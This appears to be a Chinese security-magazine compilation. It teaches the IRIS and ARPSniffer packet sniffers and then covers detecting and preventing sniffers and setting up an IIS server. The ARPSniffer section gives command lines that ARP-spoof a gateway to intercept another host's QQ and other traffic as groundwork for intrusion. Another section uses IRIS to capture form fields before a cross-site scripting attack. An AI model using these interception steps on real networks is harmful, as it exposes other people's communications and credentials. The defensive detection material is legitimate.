嗅探器的英文写法是 Sniffer，就是能够捕获网络报文的设备。嗅探器可以分析网络的流量，以便找出所关心的网络中潜在的问题。

IRIS 是 eEye.com 公司新出的网络通信分析器——一个有革新意义的网络管理软件，它能帮助 IT 人员用来监视他们内部网络的通信情况，可作为一个完整的系统工作管理“看门狗”。支持平台：Win9x/NT/2000/XP。现在最新版本是 3.7，在这里我使用的是 2.0 版。

下载并安装完 IRIS，现在就开始学习如何使用 IRIS。配置：首次运行后会出现如图 4 的窗口：


在 Adapters（网络配置器）中选择你想从哪个网络配置器中捕获数据。其它设置用默认的就可以了。然后按确定，出现 IRIS 的主界面；如图 5 所示：


使用：在出现主界面后，按下 Shift+A，IRIS 便开始捕获数据。最左边的是 IRIS 的工具条，其中包括 IRIS 的主要功能、数据统计、连接和帮助。Packet Decoder 是数据包解析区，从中可以看到每个数据包的详细信息。右上方的是 IRIS 捕获数据的信息，包括时间、MAC 地址、IP 地址、协议类型、大小等信息。右下方的是数据包编辑区，选择要编辑的数据包，按 Packet（就是那个闪电图标），选择 new empty packet 来生成一个空的数据包，自己可以对其进行编辑，编辑完了之后按 send this packet 可发送这个数据包。选择 delete packet 可以删除这个数据包，如图 6 所示：


数据统计：对于一个网管来说，网络数据流量的统计相当重要，IRIS 提供了优秀的图像显示功能，使得流量的统计更为直观。选择 View 中的 Protocol Distribution、Top Hosts、Size Distribution 可以用图形方式直观地看出网络数据的流量，如图 7、8、9 所示：


用 IRIS 嗅探 TCP 三次握手的实例：首先选择 IRIS 菜单栏中的 Filters 中的 Edit filter（或按 Ctrl+E），在弹出的窗口中选择 TCP 协议，如图 10 所示：


图10

确定之后，按 Shift+A，使 IRIS 开始捕获数据。打开 CMD，telnet 到一台肉鸡的 2324 端口，如图 11 所示：


图11

等 telnet 成功后，便结束捕获，可以看到 IRIS 捕获数据的信息，前 3 项就是 TCP 的三次握手，第 4 个是对方发过来的数据信息，第 5 个是本机确认已经接收到数据了，如图 12 所示。


图12

下面就来分析一下 TCP 三次握手中的第一个连接请求。如图 13 所示：


图13

可以从数据包编码区中清楚地看到 TCP 数据包的格式，由于以上是 16 进制，所以要转成 2 进制才容易写出。以下是 TCP 的数据格式：

```text
05 04 09 14

3A ED 30 D9

00 00 00 00

70 02 40 00

05 E0 00 00

02 04 05 B4

01 01 04 02
```

其中 05 04 表示本地端口为 1284，09 14 表示远程 telnet 端口为 2324，3A ED 30 D9 是顺序号，00 00 00 00 是确认号，70 表示 TCP 的长度为 28 字节；02 表示 SYN＝1，40 00 表示窗口大小为 16384，05 E0 是校验和，00 00 表示紧急指针，02 04 05 B4 01 01 04 02 表示协商传输速率为 1460 byte/s。

其实 IRIS 的功能十分强大，你也可以用它来嗅探其它协议，如 UDP 协议，限于本人水平有限，这里不再举例。希望大家可以在使用 IRIS 的过程中学到更多网络知识。

## 三、ARPSniffer 的使用方法简介

王智慧

通常在局域网环境中，我们都是通过交换环境的网关上网的，在交换环境中使用 NetXray 或者 NAI Sniffer 一类的嗅探工具，除了抓到自己的包以外，是不能看到其他主机的网络通信。如果我们可以通过利用 ARP 欺骗，就可以实现 Sniffer 的目的。ARP 协议是将 IP 解析为 MAC 地址的协议，局域网中的通信都是基于 MAC 的。今天我们谈谈小榕的监听工具 ARPSniffer（可以在 http://www.netxeyes.com/ARPSniffer.exe 下载）的使用方法。

- 1. 先让我们了解这个软件 ARPSniffer 0.5，08 月 12 日发布的，基于交换环境的 Sniffer 工具（需要安装 WINPCAP 2.1 驱动）；修正了 ARP 报文的问题，原来版本的 ARP 报文存在 BUG，会出现丢包或者 ARP 欺骗不成功的现象。
- 2. 可快捷定时欺骗网卡。
- 3. 包含了 IPRouter 的功能，不依赖于系统，也不用修改注册表。

## 二、我所在的交换环境及原理简介

我们知道在局域网中所有的主机都是靠网关与外界通信的，如图 14 所示。例如我所在的局域网中 192.168.0.132 和 192.168.0.131 都是通过网关 192.168.0.1 上网的，我作为攻击者的系统为 192.168.0.132（也就是我的系统），听到 192.168.0.131 的通信，那么我们就可以利用 ARP 欺骗实现。实现方法如下：

- 1. 首先告诉 192.168.0.131，网关 192.168.0.1 的 MAC 地址是 192.168.0.132。
- 2. 告诉 192.168.0.1，192.168.0.131 的 MAC 地址是 192.168.0.132。

这样 192.168.0.131 和 192.168.0.1 之间的数据包就会发给 192.168.0.132，也就是攻击者的机器，这样就可以听到它们之间的会话了。但是这么做有一个问题，192.168.0.131 发现自己不能上网了，因为原来发给 192.168.0.1 的数据包都被 192.168.0.132 接收了，而并没有转发给网关 192.168.0.1。这时候 192.168.0.132 设置一个包转发就可以解决这个问题了，也就是把从 192.168.0.131 收到的包转发给 192.168.0.1，再把从 192.168.0.1 收到的包发给 192.168.0.131。这样 192.168.0.131 根本就不知道自己被监听了，但小榕的这个工具没有这个功能。当捕获结束后，192.168.0.131 会在一段时间内无法上网（因为它的 ARP 表还没有改过来），这个时候可以发一个 RESET 来恢复，这样 192.168.0.131 就可以正常上网了。


图14

## 三、软件使用

现在让我们开始吧，如图 15 所示。

```text
C:> ARPSniffer

ARPSniffer 0.5 (Router Inside), by netXeyes, Special Thanks BB

www.netXeyes.com 2002, security@vip.sina.com

Network Adapter 0: Realtek RTL8139(A/B/C/8130) PCI Fast Ethernet NIC

Usage: ArpSniffer <IP1> <IP2> <Sniffer TCP Port> <LogFile> <NetAdp> [/RESET]
```

其中：IP1、IP2 是在交换环境中需要 Sniffer 的两个 IP。IP1 就是网关 IP，我这里是 192.168.0.1；IP2 是我们要嗅探的宿主机。Sniffer TCP Port：就是我们要监听的目标主机的端口，需要 Sniffer 的协议（例如 110、21、23 等）如果需要捕获所有的数据包用 “*” 即可。LogFile：将 Sniffer 到的内容存入文件（在非交换环境中，所有的数据包都会被捕获）。还有 Network Adapter 0 是我的网卡类型 0（等一下我们要用到的）。<NetAdp> 就是网卡类型；我这里是 0。另外需要开启 IP Routing 的功能，可以修改注册表 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters，增加一项 Name: IPEnableRouter → Type: REG_DWORD → Value: 0x01，重启系统即可。这个 ARPSniffer 0.5 版本是 08 月 12 日发布的，不用你修改了（上面已经说过了）。


好了，到现在你已经知道 ARPSniffer 命令行的使用格式，我们开始监听目标 4000 端口（就是 QQ 的通信端口），下命令：ARPSniffer 192.168.0.1 192.168.0.131 4000 C:\aaa.txt 0，如图 16 所示，软件开始工作，看他是跟谁聊天，聊些什么？过了一小会儿监听数据出来了，如图 17 所示，打开 C:\aaa.txt 就是我们监听到的所有的数据。


哇……什么玩意呀！看不懂。看来 QQ 通过加密是不能够看出明文的，你可以破解 QQ 的加密算法来进行解密。好了，下面我们监听他的所有报文，下命令 ARPSniffer 192.168.0.1 192.168.0.131 * C:\Arp.txt 0，如图 18 所示（过了会儿自己关闭），打开 C:\arp.txt，就是我刚才监听到的数据文件，这里就不再摘录了。好了，你可以更改端口对其它行为有目的地监听，也可以在人侵内网前收集资料。


下面为了熟练使用 ARPSniffer，我们再对其 139 端口监听，下命令：ARPSniffer 192.168.0.1 192.168.0.131 139 C:\139.txt 0，如图 19 所示。哈哈，恭喜你！你会用 ARPSniffer 了。但我这里不过教你攻击 XX 目标，而是作为软件使用的心得，请你不要用在非法上。有什么建议和更好的使用方法，稿告 allabomber@etang.com。


## 四、如何用 IRIS Shocker 抓取网页提交的信息

在我们使用跨站脚本攻击以前，往往需要确定页面到底提交给服务器多少个变量，从而进一步分析那个变量有没有进行必要的过滤，然后通过给该变量赋特殊值，从而达到跨站脚本攻击的目的。初学者在这时可能会想到一种方法，那就是：首先把页面保存起来，然后进行本地的修改，把 POST 提交方式改成 GET 提交方式，从而可以在提交的时候在 URL 中包含变量，这样就可以知道了。但是，这种方法非常麻烦，保存、修改要浪费不少时间，下面我就来说说如何用 IRIS 软件抓取网页中提交的信息。

首先下载安装软件，这我就不具体说了，详见杂志中相关文章。

然后运行软件，如图 20 所示。


图20


图22

为了测试一下，你可以上网，随便找一个可以提交信息的论坛或者留言簿，然后提交信息。提交完毕后，回到 IRIS 主窗口，点击左边的 Decode 图标，这时就会抓到如图 23 所示窗口，再点击图 23 中画红圈的那个按钮就 OK 了。

点击 Filters 菜单里的 Edit filter，进入图 21 所示的窗口。


图21


图23

这里是对过滤器的设置，由于我们抓取的是网页提交的信息，所以我们设置 Ports，在其中选择如图所示的 Http 80 这个端口，双击它，就会自动添加到左边的空白窗口中，设置完这里后，点击确定退出，其它的不用设置，用默认的即可，然后你就可以点击主窗口中的绿色小箭头开始捕捉信息了。点击后，绿色小箭头会变成如图 22 所示的红色方块，证明捕捉已经开始。

这时，你会看到 Hosts activity 窗口中已经显示出来一个 tcp→http(80) 的项目，点击它，右边会显示出几个项目，点击显示出来的项目就可以查看抓到的信息了，图 23 中所示的就是我测试时抓到的信息，其中我用绿色的圈框起来的就是网页提交的变量。

IRIS 是一个非常方便的软件，但是这里需要大家注意的是如果你没有网卡，并且用的是 Win2000 以上版本的操作系统，那么你会发现 IRIS 不能用了，因为 IRIS 不能在 2000 下找到拨号网络适配器。呵呵，如果想解决，可以装用网卡的那种 ADSL 或者宽带。再次特别提醒大家注意！

## 防范篇

## 刺客完美破解

## 一、嗅探反击战

逍遥工作室·轩辕

## 一、除了邮箱帐号密码、FTP 帐号密码，还有哪些信息可能会被这些嗅探软件所记录？

- 1、金融帐号

许多用户很放心在网上使用自己的信用卡或现金帐号，然而 Sniffer 可以很轻松截获在网上传送的用户姓名、口令、信用卡号码、截止日期、帐号和 PIN。

- 2、偷窃机密或敏感的信息数据

通过拦截数据包，入侵者可以很方便记录别人之间敏感的信息传送，或者干脆拦截整个的 Email 会话过程。

- 3、窥探低级的协议信息

通过对底层的信息协议记录，比如记录两台主机之间的网络接口地址、远程网络接口 IP 地址、IP 路由信息和 TCP 连接的字节顺序号码等。这些信息由非法入侵的人掌握后，将对网络安全构成极大的危害。

## 二、如何判断你的电脑正被嗅探器监视

## 主题乐园

给出现以下几种情况，那么就有可能正被 Sniffer 等嗅探器监视。

- 1、你的网络通讯掉包率反常地高。

通过一些网络软件，你可以看到你的信息包传送情况（不是 Sniffer），像 ping 这样的命令会告诉你掉了百分之几的包。如果网络中有人在监听，那么你的信息包传送将无法每次都顺畅地流到你的目的地（这是由于 Sniffer 截接每个包导致的）。

- 2、你的网络带宽出现异常。

通过某些带宽控制器（通常是防火墙所带），你可以实时看到目前网络带宽的分布情况，如果某台机器长时间地占用了较大的带宽，这台机器就有可能在监听。在非高速信道上，如 56K CDN 等，如果网络中存在 Sniffer，你应该也可以察觉出网络通讯速度变慢。

- 3、通常一个 Sniffer 的记录文件会很快增大并填满文件空间。

在一个大型网络中，Sniffer 明显加重机器负荷。这些警告信息往往能够帮助管理员发现 Sniffer。

- 4、一个主机上的 Sniffer 会将网络接口置为混杂模式以接收所有数据包。对于某些 UNIX 系统，通过监测到混杂模式的网络接口，虽然可以在非混杂模式下运行 Sniffer，但这样将只能捕获本机会话。只有混杂模式下的 Sniffing 才能捕获以太网中的所有会话，其他模式只能捕获本机会话。

## 三、如何阻止嗅探器的监视

- 1、交换

随着交换机成本和价格的大幅度降低，交换机已成为非常有效的使 Sniffer 失效的设备。目前最常见的交换机在第三层（网络层）根据数据包、目标地址进行转发，而不太采取集线器的广播方式。从理论上讲，通过交换设备对网络进行分段后，Sniffer 将无法透过边界窥探另一边的数据包。但是请注意：这是在边界设备不转发广播包的情况下（这也是通常的网络情况）。一旦入侵者使用 spoofer 诱骗某个边界设备而将自己的广播包流入不该进入的网段后，原理上还是在一个共享设备端使用 Sniffer，而实际上将是听到了边界的另一边。当然，这样会牵涉到 IP 欺诈和 MAC 欺诈的问题。然而，你别忘了，Sniffer 和 spoofer 是很少分开的。

- 2、加密

目前有许多软件包可用于加密连接，从而使入侵者即使捕获到数据，也无法将数据解密而失去窃听的意义。

- 3、入侵检测

使用诸如 Tripwire 之类的工具，生成文件系统的 MD5“数据指纹”，及时发现被修改的系统文件。

- 4、使用 antiSniffer 软件

以下是一些流行的检测 Sniffer 的程序：

http://www.attrition.org/security/newbie/security/Sniffer/

promisc.c——是一个很小的 C 程序，当编译好后，会查找本地机器上任何处于混杂模式的 NIC 网络适配卡。

http://www.l0pht.com/antisniff/ 这是 L0pht 写的很好的反 Sniffer 程序，L0pht 还打算公开 Linux 版本的源码。

下面我们一起来看看 Sentinel 的用法。

Sentinel 主要的设计思想是 portable、accurate implementation，就是说小巧点、精确实现几个熟知的混杂方式探测技术。其中 Sentinel 支持三种方法的远程混杂探测模式：DNS 测试、Etherping 测试和 ARP 测试，其中还有一种 ICMP ping Latency（ICMP PING 反应时间）正在开发中。

此程序需要 Libnet 和 libpcap 库来支持，大家可以到下面的地址下载：

Libnet 1.0: http://www.packetfactory.net/Projects/libnet  
libpcap 0.4: ftp://ftp.ee.lbl.gov/libpcap-0.4.tar.Z

首先说一下它其中使用的三种模式：

- ARP 测试模式：

这种方法是采用发送一个 ARP 请求，其中包含所有正确信息，除了伪造的目标主机 MAC 硬件地址给我们的目标主机。这样如果目标主机没有处于混杂模式，它将不会理睬这些信息包，因为这些信息包认为不是指定给它们的，所以不会进行响应和回复；但如果此目标机器处于混杂模式，ARP 请求就会发生并进行内核处理，通过机器的回应信息我们就可以知道其处于混杂模式。这种方法结合内核的特性来看机器的运作状态，博看下面的 Etherping 测试模式。

- DNS 测试模式：

DNS 测试主要是针对网络数据收集工具能执行 IP 到名字反解析来提供 DNS 名字代替 IP 地址（The DNS tests operate on the premise that many attacker network data gathering tools perform IP to name inverse resolution to provide DNS names in place of IP addresses）。在执行反转查询中，工具会从被动网络工具模式转变为主动网络工具，而那些没有监视网络数据的工具就不会去解析信息包中的 IP 地址。利用这种信息，Anti Sniffer 工具可以自身在本地主机中变为混杂模式，并在我们网络中发送无数个伪造的主机。这样，Anti Sniffer 工具就可以嗅探 DNS 请求来查看目标是否在请求解析那些不存在的主机。

- Etherping 测试模式：

Etherping 测试模式依赖于目标主机的内核，也就是所谓的内核测试。在通常情况下，硬件网络接口卡过滤和丢弃那些 MAC 地址不同于自己机器上的 MAC 地址的信息包，或者不是广播 Ethernet 地址的地址。就是说信息包是正确和实际的 Ethernet 地址，或者是广播 Ethernet 地址，接口就会把这些地址复制和传递给内核进行进一步处理。

但某些系统假定包含在以太帧中的数据包含某个目标主机中正确的 IP 地址或者广播地址，但是有不同于本地主机的 MAC 地址。当 NIC 设定为混杂模式，送给目标主机的每个数据包便规定它还会接收并传递给操作系统进行分析。这种通过发送包含正确 IP 地址和不正确 MAC 地址的 ICMP ECHO 包给要检测的主机，如果目标主机回应了我们的请求，我们就知道其处于混杂模式了。多种 Linux 内核存在这种问题，其中 NetBSD 也可以利用这个问题来检测混杂模式，但需要使用广播地址的信息包，这种信息包使用带伪造 ether 帧的 IP 地址，如 66:66:66:66:66:66。

关于 Windows 95/98/NT 的操作系统在混杂模式中确实是检查信息包 Ether 地址的，如果信息包的 NIC Ether 地址符合本地主机就让堆栈来处理。但 Windows 对广播的 ether 信息包存在问题，在普通环境下，如机器不在混杂模式下，NIC 只担负有其本身 MAC 地址的信息包或者 ether 地址，如 ff:ff:ff:ff:ff:ff，传递给内核。但当在混杂模式中驱动程序检查 Ether 地址时，它只检查 Ether 地址的第一个八位组是否为 0xff 就来判断信息包是否为广播或者其他。因此，如果我们建立一个包含 Ether 地址为 ff:00:00:00:00:00 的 IP 正确的信息包并发送给目标机器，如果其进行了响应，就表示其处于混杂模式。

## 二、嗅探器的防护策略

独行者

理论上，嗅探程序是不可能被检测出来的，因为嗅探程序是一种被动的接收程序，属于被动触发的，它只会收集数据包，而不发送出任何数据。但是当它安装在一台正常的局域网内的计算机上的时候，会产生一些数据流。

下面是一种简单的检测方法——ping。

很多的嗅探器程序，如果你发送一个请求给那台有嗅探程序的机器，它将作出应答。

具体方法：

- 1. 怀疑 IP 地址为 10.0.0.1 的机器装有嗅探程序，它的 MAC 地址确定为 00-40-05-A4-79-32。
- 2. 确保机器是在这个局域网中间。
- 3. 修改 MAC 地址为 00-40-05-A4-79-33。
- 4. 用 ping 命令 ping 这个 IP 地址。
- 5. 没有任何人能够看到发送的数据包，因为每台计算机的 MAC 地址无法与这个数据包中的目的 MAC 相符；所以，这个包应该会被丢弃。
- 6. 如果你看到了应答，说明这个 MAC 包没有被丢弃，也就是说，嗅探器存在！
- 7. 杀了它！

关于嗅探器就简单地介绍到这里，有不对的地方还请各位大虾们指正！谢谢！


图24

## 三、Win2000 下对 SNIFFER 检测和防范

### ——用 Windows 2000 自带的工具实现

hardi.

学网络安全，学入侵，都离不开学 Sniffer。但是我们听到比较多的都是 UNIX 下的或者是 Linux 下的监听，Windows 下的并不是很多。但是我们一般用的都是 Windows 操作系统，一旦被恶意者监听了，我们的账号和密码就没有安全可言了。也不知道为什么搞网络安全的人现在都喜欢用 Windows 2000+Linux 双操作系统，我也是，但是一般都是在 Windows 2000 下工作，所以它被监听的机率当然高了点。下面我们就来看看如何在 Windows 2000 下对嗅探器进行检测和防范。

中国有句古话：“知己知彼，百战不殆”。我们要检测和防范它，就必须先了解它是如何工作的。Sniffer 的经典定义是：利用计算机的网络接口截获目的地址计算机的数据报文的一种工具。其实这样看来，Sniffer 是一个中性词，事实上也是这样，它的正当用处主要是分析网络的流量，以便找出所关心的网络中潜在的问题。例如，假设网络的某一段的运行不是很好；报文的发送比较慢；而我们又不知道问题出在什么地方，此时就可以用嗅探器来作简短的判断。但是一旦 Sniffer 变成入侵者手上的工具，它的性质就开始变化了，开始变得可怕起来了！

Sniffer 工作在网络环境中的底层，它会拦截所有正在网络上传送的广播数据（因为如果用 HUB 互连的话，发送方式是用的广播形式），并且通过相应的软件处理，可以实时分析这些数据的内容，进而分析所处的网络状态和整体布局。因为是广播形式，所以它也只能监听同一网段的主机，也就是物理网段的主机。

看了那么多的基础知识，我们也知道了 Sniffer 的厉害了吧，下面我们就一起来看看如何检测和防范它。实际上，网络监听是很难被发现的。运行网络监听的主机只是被动地接收正在局域网上传播的信息，并没有主动的行为，既不会与其他主机交换信息，也不能修改在网上传播的信息包。这一切决定了网络监听的检测是非常困难的。在 Windows 2000 下，如果主机被监听了，那就说明别人已经获得了你的 Administrator 权限了，所以判断你的网段的机器是否被监听，第一步可以从管理员用户着手。用 net 命令就可以搞定了，如图24所示：

看看这台机器的管理员，一般来说，一台机器的管理员账户最好就一个，还有就是域管理员账户。而这个机器里有两个，大家看第二个“SQLADMIN”，是不是觉得很怪，不敢删除，但其实它就是一个入侵者留下的账户，用这个名字是用来迷惑用户的。像这样的用户名很多，像什么 SysAdmin、System_Administrator，所以在这些机器上被种上 Sniffer 的可能性是很大的。

值得大家注意的是，Sniffer 也是和木马有着相同的性质（其实从某种意义上说，它也是一种木马了），就是将自己放到自动运行里的功能，也就是加载到注册表里，否则机器重新启动，一切不就完了？所以检测 Sniffer 第二步要注意的就是，注册表的启动项是否被添加键值。最常见的就在下图25所显示的地方：


图25

也就是在：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

但是有些 Sniffer 是一次运行的，像安全焦点的 XSniffer，还有 ngSniff，它们都在命令行下运行，程序也不是很大，就 20 来 K。

如果你装的是 Windows 2000 的服务器版，或者高级服务器版，那就很有可能被人家装上非命令行的 Sniffer，因为它们会用 3389，即远程终端，来远程控制你的机器。

下面我们就来具体看看如何检测和防范这两种方式下的监听行为：

先看命令行下的：

命令行下的是最基本的，入侵者通过 telnet 远程命令访问你的机器，然后用 FTP 下载一个嗅探器，直接运行就可以了，或者用 at 命令更简单，都不用 telnet，如：at \\xxx.xxx.xxx.xxx "运行时间" "要运行的文件名和参数"。知道了这些，我们就可以判断你的机器是否运行着 Sniffer 软件了，因为随便定时这种方法，我们可以利用 Windows 2000 自带的任务管理器来查看进程。如果发现有陌生的进程出现，那就有可能是嗅探器了，如图26所示。我们是拿安全焦点的 XSniffer 为例子的（当然人家会改成其他的名字，不会像我这样用原名了：）

如果真的是这样的话，我们要做的就是找到这个嗅探器的物理地址，并删除它，然后检查用户名和开放的服务，一定要禁止使用“Task Scheduler”服务。

如图26所示，因为这个服务可以调用到 at 命令，是很可怕的事哦！然后在这个物理网段内重复上面的小步骤就可以了。


图26


图26

再来看看非命令行下的，这是个很可怕的事情了，因为可以说，你的机器已经完全被别人操纵了。他可以在你的机器上装一些大的嗅探器了，如果装的是功能极其强大的嗅探器的话，我想你所有的账户和密码应该都落入旁人之手了。但是这些强大的嗅探器都有一个缺点，就是它们在过滤数据和处理数据的时候要占用大量的 CPU，这个特点就可以让我们抓住嗅探器的辫子。我们还可以使用任务管理器查找，如果在不运行任何大型应用程序时，你的 CPU 使用率很高的话，那本机就十有八九存在嗅探器了。再通过任务管理器找到那个使用 CPU 最多的程序，后面的步骤就和命令行下的一样了。

下面的问题，也是最头痛的问题了：如果所在的机器不是嗅探器所在的机器，那我们如何发现自己的机器被同一网段上的机器监听了呢？为什么说头痛呢？因为嗅探器使用的是被动技术，它只是接收和分析广播数据，并不发送数据，本机处理，本机完成。怎么办呢？我们要利用第三方软件来实现了，UNIX 下的很多，像 Antisniffer。但是 Windows 下的很少，如果非要使用的话，promiscan 还算得上一个吧！它是一个国外的软件，不过需要先安装 WinPcap 驱动程序，大家可以在 http://netgroup-serv.polito.it/winpcap/ 下载。不过它很容易报错，因为它会把网卡当作嗅探器：）不过万不得已不要使用它。

说了这么多，大家知道 Sniffer 的可怕了吧！所以我们要防范它，不要等到知道它存在了再去找它，那个时候已经晚了。最简单省事的方法就是用交换式集线器代替共享式集线器，这样，当用户与主机进行数据通信时，两台机器之间的数据包（称为单播包 Unicast Packet）还是不会被同一台集线器上的其他用户所监听。因此，应该用交换式集线器代替共享式集线器，使单播包仅在两个节点之间传送，从而防止非法监听。还有其他的防范方式，如：从逻辑或物理上对网络分段、使用加密技术、运用 VLAN（虚拟局域网）技术，但是这些都比较难实现，所以推荐大家使用交换式集线器代替共享式集线器，这样可以在很大程度上避免被监听。

## 个人服务器安全攻略

作者：Flying

## 精心护理你的 Web 服务器

与其在菜鸟们面前讲那些“不切实际”的网站服务器知识，不如来点更基础的东西。好！今天就来讲讲个人服务器的搭建和攻防方面的问题。

由于计算机网络技术的普及，服务器不再是那种至高无上、令人望尘莫及的东西，不再是大型网络公司或是网站的提供商才有的了。现在，连菜鸟都可以拥有服务器了。

> 菜鸟：什……什……么？连我们这些菜鸟也可以拥有服务器？我没听错吧？

是的，你没有听错，只要你有一台电脑，并且能够连接到 Internet，你就可以很轻松地拥有它！

> 菜鸟：很轻松地拥有它？你说得倒轻松，可是我们连什么是服务器、做服务器需要具备哪些条件、个人服务器与网站上的那些服务器有什么区别、如何搭建服务器等等一大堆的问题都不明白呢，可不可以说清楚点？

作者：其实，搭建一台单纯的服务器并不困难，难就难在搭建好之后如何去维护它，让它免受黑客的入侵和攻击，下面我就来给初学者补充点“营养”吧！

## 一、服务器站点：预备知识

### 1、什么是服务器

首先，不要把服务器看得太神秘，总以为它离我们的生活很遥远。实际上，服务器也只不过是一台普普通通的计算机而已。

> 菜鸟：什么？你说服务器只是一台普普通通的计算机而已？？虽然我不是大侠，但也混了几个月了，你不是糊弄我吧？

作者：哎呀！怎么又是你呀！我还没说完嘛，真是的！表面上看去，服务器与一般的用户计算机的确没有什么分别，但实际上，专业的服务器注重的是，在达到一定的稳定性并符合性能的基础上，性能越高越好。但是为了商业效益和安全问题，商家不得不把性能放在第二位，稳定和安全才是第一的。这种稳定主要表现在持续工作时间的长短上。一般来说，一台专业的服务器至少应该达到 7 天 7 夜不间断、无故障地工作，并采用高倍率电量的 UPS，甚至是智能 UPS。由于服务器要对外提供服务，要处理大量的数据，所以，对 CPU、内存、硬盘等设备都有很高的要求，服务器在这方面要比一般的用户计算机要好得多。

### 2、服务器上有些什么东西

> 菜鸟又问：既然服务器上的硬件比普通的计算机要好，那服务器里的软件呢？装的都是什么东东？会不会有像“半死”这样的游戏软件？

作者：啊！你真像《傻瓜黑客》里面的阿水，真是百问不厌啊，那我不就成了搭哥？呵呵！为了保持大侠风度，我当然也会像搭哥那样百答不厌的啦！

> 小刘心里想：你不厌我都厌了，真以为你自己是高手啊？拜托你快点说！

服务器上装的东西跟普通用户计算机上的软件不同，普通计算机装的是 Windows 98、Windows ME、Windows 2000 Professional、Windows XP Professional 等，这些都是面向个人使用的操作系统，而服务器运行的是专门适用于架设服务器的操作系统，如 Windows NT Server、Windows 2000 Server、Unix、Linux 等操作系统。而且由于服务器要对外提供服务，还要装上各种各样的服务支持软件，如 IIS 等组件，具体安装什么样的服务软件，那就要看服务器提供什么样的服务了。

> 菜鸟：那 IIS、DHCF 又是些什么东东？

> **提醒**
>
> IIS 是 Internet Information Server 的简写，微软公司的 Web 服务器软件，它是一个功能强大的 Windows 组件。只要在你的机器上装了它，你就可以将你的计算机变成一台服务器，让别人浏览连接在你电脑上的主页。

至于像“半死”这样的游戏软件，在 Web 服务器上是绝对不能出现的，平时服务器都要放到一些偏僻的地方，有谁敢拿服务器来开玩笑呢？万一游戏软件出现了什么漏洞导致服务器不能工作了，损失可就大了！菜鸟恍然了：原来如此……

### 3、个人服务器的必要性

你也许在网上申请了一个免费的个人空间，但由于时间长了不堪重负，提供商便以“空间不足”“资金缺乏”等理由拒绝提供服务；你也许想建一个论坛，但一时找不到合适的免费空间；你也许想学一学如何建设和管理网站方面的知识，但无奈没有真实的环境。你也许……如果真是这样的话，兄弟，我建议你“自立门户”，动手架设属于你自己的个人服务器吧！

### 4、个人服务器与网站服务器有哪些区别

> 菜鸟：磨磨蹭蹭地说了那么多，我还不清楚个人服务器跟网站上的服务器有什么区别呢，快点说！

作者：啊！是，我的老爷……

其实，搭建个人服务器，我们所需要的只是一台能够稳定、高速连接到 Internet 的计算机就可以了，并不需要像专业的服务器那样，需要连续 7 天 7 夜不间断、无故障地工作，硬件不要求得太高，这是一个区别。

再有就是在软件方面，由于本文介绍的是搭建 Web 服务器，所以，装上微软的 Windows 2000 Server 和 IIS 就可以了，不用像其他的专业网站服务器那样，要装 Unix 和数据库等。

## 主题乐园

## 5. 架设个人服务器的前提条件

菜鸟：太好了！原来就这么简单，我现在就想架设一台个人服务器；你快快教我怎么做吧！

作者（故作高手的样子）：好，听着，要我教你，行！不过……得交学费。

菜鸟：（听后鼻子喷火、头发冒烟，腰间挎着一篮臭鸡蛋）：什么？？？

作者：不，不，我的意思是说，学……学……学这玩意儿要费……费……费点心思。作者的小命这才得以幸存。

小刘总挠着脑袋：唉！这年头做高手随时都有生命危险，真不好混啊……

架设个人服务器的前提条件之一就是宽带接入 Internet。

菜菜鸟（走上来，抓抓头皮）说：我没有宽带接入，拨号的行不行啊？

作者（见菜菜鸟一副弱不禁风的样子，便发起威来了）：要是有几万人同时访问你的服务器，你家里的“小猫”又怎能受得了？宽带接入，不仅仅意味着访问速度的提升和带宽的增加，更重要的是，宽带接入比传统的拨号接入更加省钱啊，傻瓜！

小刘：要是换了上面那个菜鸟，我看你还敢不敢用这样的语气说话。

宽带接入网络有三种比较流行的方式，分别是 ADSL、Cable Modem 和以太网接入技术（FTTB+LAN），大家可以参考有关资料，根据实际情况选择合适你自己的连接方式，我就不多说了。（小刘狂吐血：晕~~等于没说，不过也好，让读者了解到了接入的几种流行方式。）

其二，购置硬件。为了达到稳定性与安全性相结合的效果，假如每天应付 10000 个 IP 的访问量，至少要有以下的硬件配置：CPU：PIII 1G 或以上；RAM：256M 或更多；硬盘：7200RPM 20G；网卡：质量可靠稳定、丢包率小的网卡就可以了。

其三，为了适合大众，操作系统应该选择最流行的 Windows 2000 Server，应用软件选 IIS 了。

小刘：哇，晕！大师一气呵成，菜鸟们，拍手啊！啪！啪！……

## 二、师夷贴吧：配置架设

用过 Windows 操作系统的老朋友都知道，以前在 Windows 9X 上搭建 Web 服务器的时候都使用 PWS 来完成的，而且还要买盗版的安装盘或者到网上去下载 PWS 的安装程序。现在可好了，直接使用 Windows 2000 的 IIS 就可以搭建，免去了许多无谓的工作。只要你安装完 Windows 2000 Server，IIS 便默认安装在你的计算机上，只要稍加配置便可以轻松搭建你的个人 Web 服务器。

实际上，安装完 Windows 2000 Server 之后，只要你的计算机连接到 Internet 上，就已经是一台服务器了。这个时候，只要你把想发布的网页文件复制到 C:\Inetpub\wwwroot（这个目录的具体路径要视具体情况而定，默认是这个路径）文件夹下，并把首页的名字更改为“default.htm”或“default.asp”，别人就可以通过 Web 浏览器访问到你的主页了。

菜鸟：就这么简单？

作者（一看原来是捧着一篮臭鸡蛋的菜鸟）：是……的，不过，站点安全和目录存取权限等问题就不是这么简单了，我上面都说了，还要稍加配置嘛！

配置 Web 站点的基本属性：依次点击“开始→程序→管理工具→Internet 服务管理”，如图 1 所示。


弹出“Internet 信息服务”窗口，如图 2 所示，这里便是你管理站点的地方了。


双击计算机名称，展开树形目录，在“默认 Web 站点”项上点击鼠标右键，选择“属性”项，如图 3 所示。


弹出“默认 Web 站点属性”对话框，如图 4 所示，对站点的基本操作都可以通过这里来设置，下面简单介绍一下如何设置 Web 站点的属性。


展开“Web 站点”标签，如图 5 所示。


图 5


图 6

> （弱不禁风的）菜菜鸟：以前我学着人家用 Unicode 入侵的时候，只改过 C:\inetpub\wwwroot 里的主页，放到 D 盘去就改不了了么？

作者：去，去，去，用 Unicode 漏洞就不能改不了了，因为 scripts 目录与 www 目录不在同一个盘里。原因为什么……那就要看下一章节才知道了哦！

